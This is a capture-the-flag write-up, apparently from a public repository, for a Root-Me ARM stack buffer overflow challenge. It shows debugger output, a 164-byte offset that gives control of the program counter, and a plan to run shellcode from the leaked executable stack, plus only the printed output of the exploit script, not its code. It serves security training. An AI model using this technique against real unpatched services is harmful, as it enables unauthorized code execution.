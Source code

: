 # ELF ARM - Stack buffer overflow - basic
https://www.root-me.org/en/Challenges/App-System/ELF-ARM-Stack-buffer-overflow-basic
```
Conquer the binary to read the .passwd file.

PIE	    Position Independent Executable	          No        
RelRO	    Read Only relocations	                  Yes
NX	    Non-Executable Stack	                  No
ASLR	    Address Space Layout Randomization	          Yes
SF	    Source Fortification	                  No
SSP	    Stack-Smashing Protection	                  No
SRC	    Source code access	                          No

Challenge connection informations :

Host	            challenge04.root-me.org
Protocol	    TCP
Port	            61045
SSH access	    ssh -p 2224 app-systeme-ch45@challenge04.root-me.org
Username	    app-systeme-ch45
Password	    app-systeme-ch45
```

First, in order to plan how to solve this challenge, let's check the files and their permissions:
```bash
app-systeme-ch45@challenge04:~$ ll
total 44
drwxr-x---  2 app-systeme-ch45-cracked app-systeme-ch45 4096 Apr  7  2018 .
drwxr-xr-x 13 root                     root             4096 Mar 17  2018 ..
-r-xr-x---  1 app-systeme-ch45-cracked app-systeme-ch45 8296 May 19  2017 ch45
-r--------  1 app-systeme-ch45-cracked app-systeme-ch45  577 May 19  2017 ch45.c
-r--------  1 root                     root               46 Apr  7  2018 ._firewall
-r--------  1 root                     root              795 May 19  2017 Makefile
-rw-r-----  1 app-systeme-ch45-cracked app-systeme-ch45  306 May 19  2017 .motd
-r--------  1 app-systeme-ch45-cracked app-systeme-ch45   33 May 19  2017 .passwd
-rw-r-----  1 app-systeme-ch45-cracked app-systeme-ch45  516 May 19  2017 xinetd-app-systeme-ch45.conf
```

Next, let's check the ```xinetd-app-systeme-ch45.conf``` file:
```bash
service app-systeme-ch45
{
       flags                   = IPv6
       instances               = 50
       disable                 = no
       port                    = 61045
       socket_type             = stream
       protocol                = tcp
       wait                    = no
       user                    = app-systeme-ch45-cracked
       server                  = /usr/bin/timeout
       server_args             = -k1m 1m /challenge/app-systeme/ch45/ch45
       type                    = UNLISTED
}
```

So the plan is to overflow the stack using the remote service (in port 61045), in order to run a shell under _app-systeme-ch45-cracked_ permissions, which will display the file's content.<br>

If we'll execute the binary, it will display the following output:
```bash
app-systeme-ch45@challenge04:~$ ./ch45
Give me data to dump:
1234567890
0xbedd5ae8:  31 32 33 34 35 36 37 38 39 30
Dump again (y/n):
y                
Give me data to dump:
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
0xbedd5ae8:  61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61
0xbedd5af8:  61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61
0xbedd5b08:  61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61
0xbedd5b18:  61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61
0xbedd5b28:  61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61
0xbedd5b38:  61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61
0xbedd5b48:  61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61
0xbedd5b58:  61 61 61 61 61
Dump again (y/n):
n
```

Ok. So, probably we'll be able to override a _lr_ value (or something like that) in the stack.<br>
Luckily, most of the function prologs pushing the _lr_ value, in order to call other functions. And most of the function epilogues popping it back.<br>
So, because there are calls to _scanf_ and _printf_ in the main function, the function's prolog should push the _lr_ value, and the function's epilogue should pop it, and put it in _pc_.<br>
In fact, the **main** function does it:
```asm
103d8:	e3012008 	movw	r2, #4104	; 0x1008
103dc:	e3402002 	movt	r2, #2
103e0:	e92d4ff0 	push	{r4, r5, r6, r7, r8, r9, sl, fp, lr}
[...snip...]
104fc:	e8bd8ff0 	pop	{r4, r5, r6, r7, r8, r9, sl, fp, pc}
```

Nice. So we've got a plan - override the _lr_ value pushed at the beginning of the function with an address to our shellcode, and then stop the execution (by not wanting to dump again). Then, our address will be popped to _pc_.<br><br>

After few tries, the following string gave this information:
```gdb
Give me data to dump:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADDDD
0xbefffab8:  41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
0xbefffac8:  41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
0xbefffad8:  41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
0xbefffae8:  41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
0xbefffaf8:  41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
0xbefffb08:  41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
0xbefffb18:  41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
0xbefffb28:  41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
0xbefffb38:  41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
0xbefffb48:  41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
0xbefffb58:  41 41 41 41 44 44 44 44
Dump again (y/n):
n

Program received signal SIGSEGV, Segmentation fault.
0x44444444 in ?? ()
```
Awesome! so we can control the _pc_ value at the end of the **main** function (it seems to be at offset of 164 bytes).<br>
Now, we'll need a place to store how shellcode.<br>
In each run, the program will show the address of the input buffer. Because the _NX_ is not set, and the address remains the same as long as the process still runs, it looks like a nice and warm place to put our shellcode.<br><br>
So, basically we'll have to follow the following steps:
<ol>
  <li>Leak the address by inserting a simple input (e.g "A").</li>
  <li>Build a shellcode which will <i>cat</i> the file's content, and override the <i>lr</i> value with the buffer's address.</li>
  <li>Watch the magic happens.</li>
</ol>
<br>

So, I wrote a python3 script which will do it. Its output is:
```sh
[!] Shellcode's length: 80.
[+] Starting communicating with the service.
[+] Found stack offset - 0xbee0fc58.
[+] Preparing the shellcode
[+] The shellcode sent to the remote service.
[+] Flag: <censored>.
```
